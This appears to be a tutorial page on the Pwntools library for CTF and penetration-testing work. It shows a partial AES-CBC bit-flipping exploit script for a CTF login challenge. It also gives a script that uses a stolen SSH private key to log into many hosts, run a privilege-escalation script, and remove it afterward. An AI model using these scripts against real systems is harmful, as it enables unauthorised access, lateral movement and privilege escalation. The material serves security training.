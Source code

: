 ```yaml
---
title: Pwntools
---
```


## What is this about?
Connect, do stuff, pwn. It's easy right?
Well this lib/framework makes it even easier since you won't have to think about what is going on around and if you socket is working and, "oh noes my try except is messing with stuff!"

Simplifying automation with one-liners so you can concentrate on actually pwning stuff instead of looking for bribes of info on how to fix your bug and why it's not gonna work because you're running that v1.23.45-Whiskey-Tango-Foxtrot, which doesn't support that command on that particular environment because *reasons*.

Link: [https://github.com/Gallopsled/pwntools](https://github.com/Gallopsled/pwntools)

## More examples, less talk plz
Ok, sure!

### AES CBC bit flipping attack

#### The story
Long story short, you can modify a message encrypted with AES CBC mode, and if you know the cleartext you can modify specific parts of the message. If you need the math and theory behind this, there are plenty of websites that have that info, I'm staying on the "how to exploit it" not the "why can it be exploited here".	

So lets say you need to alter something on the nth block of a message with n > 0 (yeah you can't change the IV on the server to match your stuff that would be too easy). All you need to do is follow these steps:

Cn = the nth block of the encrypted message
Pn = the nth block of the plaintext
MPn = modified nth block of the plaintext

* You want to modify Pn
* Do your bit flipping on C(n-1)
* Get the modified P(n-1), which should be trash
* Repair P(n-1) by doing C(n-2) = MP(n-1) XOR P(n-1)
* Repeat until n = 1 (yeah IV = 0 so you can't change it)

Now, for the sake of simplicity, we won't need to "fix" anything in the following example and we'll keep the focus on the lib...
This is a common setup for CTFs, you send a message, the server will encrypt and send you that message back and you have to flip stuff around to bypass something and send it back modifid to get the flag.

Lets say you can't send "admin" in your request, but connecting as "admin" gives you the flag. And lets say that the complete message exchanged is *remote-username=X&password=Y* with X and Y being your input.

#### The code example

```python
from pwn import *
import binascii

HOST = "127.0.0.1"
PORT = "80"

def flip_bit(message, position):
    #Do ya thing and return the new message

def exploit_it():
    r = remote(HOST, PORT)
    r.recvuntil("username: ")
    r.sendline("bdmin")
    r.recvuntil("password: ")
    r.sendline("EpicPass!!")
    r.recvuntil("Ciphertext: ")
    returned_ciphertext = r.recvline().strip().split()[0].decode("utf-8")
    bitflipped = flip_bit(leaked_ciphertext,1)
    r.recvuntil("enter ciphertext: ")
    r.sendline(bitflipped)

if __name__ == "__main__":
    exploit_it()
```

BOOM, *remote-username=* gets nuked due to bit flipping (see what I did there with the message length, eh?), but who cares since you are sending *admin* and not *bdmin* and you can get your flag! If you're not then you might want to look a little bit closer at what bit flipping does to the ciphertext!

#### Ok cool hax, but what am I getting out of it?
The setup to exchange a message with a server is built with 3 lines only:

```python
r = remote(HOST, PORT)
r.recvuntil("username: ")
r.sendline("bdmin")
```
No setting up stuff, no reading through the messages or splitting and matching text, it's already done, which means you won't have to lose 5 mins each time with your requests!


### Auto SSH privesc checker.

#### The story
You're doing your standard internal pentest stuff, you nuked a dev's machine and ran off with his private SSH key. Now you're feeling frisky and want to check which machines he has access to and auto run a privesc check on those machines because doing it by hand is slow af and you have better things to do!

Simple steps!

* Try to connect to the machine with the stolen private key 
* Get your privesc script on the machine in /tmp
* Run the script
* Return the output to you computer
* Remove your script from the machine
* Repeat on the next machine

#### The code example

```python
from pwn import *	

def exploit_it(ip_to_test):
    s = ssh(host = ip_to_test, user = 'pwndev', keyfile = '/path/to/private-key') #You can also give it the key if you want
    if s.connected() :
        s.put("/path/of/local/privesc.sh", remote="/tmp/privesc.sh")
        s.run('chmod 755 /tmp/privesc.sh')
        print(s.run_to_end("/tmp/privesc.sh"))
        s.run('rm /tmp/privesc.sh')
        s.close()

if __name__ == "__main__":
    ip_list = [] #That list of IP you need to check
    for ip_to_test in ip_list:
    	try:
            exploit_it(ip_to_test)
        except: #something weird happened
        	pass
```
Then step back, relax and wait for results to flood your screen!

#### Ok cool hax, but what am I getting out of it?
With a basic autopwn/privesc script you can now automate checking stuff on servers and which ones should be targeted first. Sure you could do the same with some bash script, but as a "oneline per action and nothing to setup before" you might need some extra expertise and spend more time on it.

The bonus part is that there is an *interactive* mode in the pwn lib, which allows you to type stuff in and that gets pipes to whatever is on the other end. This means that you can run your auto stuff and then script the part where you check if you should interact directly with a machine depending on your privesc returns. Now you're just one fork + exec away from a new term window with a handle to that machine on it. ;)
